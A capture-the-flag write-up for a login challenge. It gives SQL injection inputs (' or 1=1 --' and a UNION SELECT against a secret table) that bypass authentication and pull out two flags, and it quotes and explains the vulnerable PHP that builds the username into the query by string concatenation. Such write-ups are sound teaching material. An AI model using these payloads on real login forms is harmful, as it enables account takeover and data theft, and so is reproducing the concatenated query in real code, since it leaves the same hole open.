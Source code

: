     I think an administrator blocked my account. Can you help me steal someone else's account?
    
    Note: There are two flags in this challenge. 

![Level 2](level2.png)

Again, we started trying basic stuff:

    user: ' or 1=1 -- 
    pass: ' or 1=1 -- 

And guess what, it partially worked!

![Flag 1](flag1.png)

Now, for the second flag 

    user: ' UNION SELECT flag FROM my_secret_table -- 
    pass: ' anything

![Flag 2](flag2.png)

There you go :)

## Why it works

First thing to notice while skimming the code is this comic (and sad) comment:

    // $query = "SELECT flag FROM my_secret_table"; We leave commented code in production because we're cool.

Right after it:

    $query = "SELECT username FROM users where username = '" . $_POST['username'] . "' and password = ?";

Later in the code we see the logic used to validate the user. 

~~~~
    // Bind password param
    $query->bind_param("s", $_POST['password']);
    $query->execute();
    $query->bind_result($user);
    $query->fetch();

        // Check if a valid user has been found
        if ($user != NULL) {
            session_start();
            $_SESSION['is_logged_in'] = true;
            $_SESSION['username'] = $user;
        } else {
            $error = true;
            $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
        }
~~~~ 

The password field is first binded to the query. Then, it is executed, saving the results in the $user variable. If any user is found, you are in and your flag is printed.

Our final query then is:

    "SELECT username FROM users where username = '' UNION SELECT flag FROM my_secret_table -- ' and password = anything"
